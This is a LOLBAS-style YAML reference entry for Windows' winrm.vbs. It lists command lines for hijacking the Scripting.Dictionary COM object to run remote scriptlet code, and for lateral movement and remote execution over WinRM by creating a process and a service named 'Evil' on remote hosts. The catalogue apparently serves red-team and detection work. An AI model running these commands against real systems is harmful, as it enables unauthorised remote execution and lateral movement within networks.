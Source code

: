 ---
Name: Winrm.vbs
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
    Description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
  - Command: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
  - Command: "winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
Full Path:
  - C:\windows\system32\winrm.vbs
  - C:\windows\SysWOW64\winrm.vbs
Code Sample:
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr.reg
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr_calc.sct
Detection: []
Resources:
  - https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - https://www.youtube.com/watch?v=3gz1QmiMhss
  - https://github.com/enigma0x3/windows-operating-system-archaeology
  - https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - https://twitter.com/bohops/status/994405551751815170
Notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc: Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)
